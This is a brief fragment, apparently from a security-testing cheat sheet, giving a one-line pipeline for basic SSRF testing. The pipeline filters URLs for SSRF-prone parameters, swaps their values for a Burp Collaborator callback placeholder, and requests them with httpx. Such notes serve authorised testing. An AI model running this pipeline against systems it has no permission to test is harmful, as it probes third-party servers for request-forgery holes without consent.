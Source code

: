 Basic SSRF test using burp collaborator

```plaintext
cat url.txt | gf ssrf | qsreplace '<burp_collab_url>' | httpx -silent

```
